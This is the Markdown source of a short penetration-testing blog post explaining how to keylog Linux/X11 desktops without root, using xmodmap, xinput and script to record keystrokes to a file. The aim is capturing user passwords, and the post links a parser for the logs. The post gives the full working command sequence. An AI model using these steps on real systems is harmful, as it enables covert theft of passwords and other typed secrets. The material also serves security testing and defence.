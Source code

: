 ```yaml
---
layout: post
title: Natively Keylogging *NIX Systems
date: '2016-06-21T21:32:00.003-06:00'
author: Sanjiv Kawa
tags:
- UNIX
- X11
- Linux
- Keylogging
- xinput
- Keylogger
- Ubuntu
- xmodmap
comments: true
---
```

I recently conducted a penetration test for a client that has rich \*NIX environment. After obtaining user access to several workstations, it was apparent that access to the interesting areas of the network required retrieving clear text passwords from users password database files.

The compromised systems did not have any misconfigurations or service vulnerabilities, so privilege escalation opportunities were few and far between. This makes executing most readily available \*NIX keylogger binaries ineffective.

I spent some time researching alternative ways to obtain keystrokes and discovered that it is possible to capture users typing directly to the keyboard using xinput. The best part is that this can be achieved with regular user privileges and with native tools.

Here is a video as well as some textual steps.

<iframe width="560" height="315" src="//www.youtube.com/embed/l09BEQ8FAAo" frameborder="0"> </iframe>

I like to create a new screen in situations like this, so the first step is:
{% highlight css %}
screen -S keylogger
{% endhighlight %}

I then sorted out some X11 display pre-requisites and grabbed the keycode to character legend. This is so that strokes can be translated from a keycode integer value to alphabetical character.
{% highlight css %}
export DISPLAY=:0.0
export | grep DIS

xmodmap -pke > xmodmap-pke.txt
{% endhighlight %}

Next step was to identify the input ID for the keyboard and use script to capture the real time strokes to file.
{% highlight css %}
xinput list

script -c "xinput test 8" -a xinput-keylogger.log
{% endhighlight %}

My co-worker <a href="http://porterhau5.com/about/">Tom Porter</a> and I are working on putting together a parser that shifts correctly to account for lowercase and uppercase characters. Some other thoughts are real-time parsing, or slightly delayed parsing so that post-processing is avoided all together.

<figure>
  <center>
  <img src ="https://4.bp.blogspot.com/-UkRf5m_3IjA/V2oEcqvBETI/AAAAAAAACC0/mM6njLJ4fM0ApagSM47W85uwi8WGw2ITQCLcB/s1600/Screen%2BShot%2B2016-06-21%2Bat%2B11.12.24%2BPM.png">
  </center>
</figure>
**Update:** Here is a link to the <a href="https://github.com/porterhau5/xkeyscan/blob/master/xkeyscan.py">parser</a> Tom put together.
